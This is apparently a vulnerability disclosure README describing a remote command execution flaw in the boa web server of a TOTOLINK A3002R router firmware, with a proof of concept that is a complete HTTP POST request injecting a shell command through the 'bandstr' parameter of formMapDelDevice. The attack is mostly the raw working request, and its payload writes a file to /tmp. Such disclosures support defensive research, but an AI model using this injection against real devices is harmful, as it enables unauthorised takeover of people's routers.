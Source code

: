 # totolink_A3002R_remote_command_exec
**Remote-Command-Execution  in /bin/boa on totolink A3002R-V4.0.0-B20230531.1404 via bandstr **

![alt text](./img/image-2.png)
addr:0045a2a4, fun:FUN_0045a1f8

# poc
burp suite change the packet as follow
```
POST /boafrm/formMapDelDevice HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 146

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/map_del_device

Upgrade-Insecure-Requests: 1



sessionCheck=5ef3b954a1316eeedf1d36330046c0ca&submit-url=%2FformMapDelDevice.htm&macstr=123&clientoff=no&bandstr=123;echo%20123456%20>/tmp/rec1.txt
```
![alt text](./img/image.png)
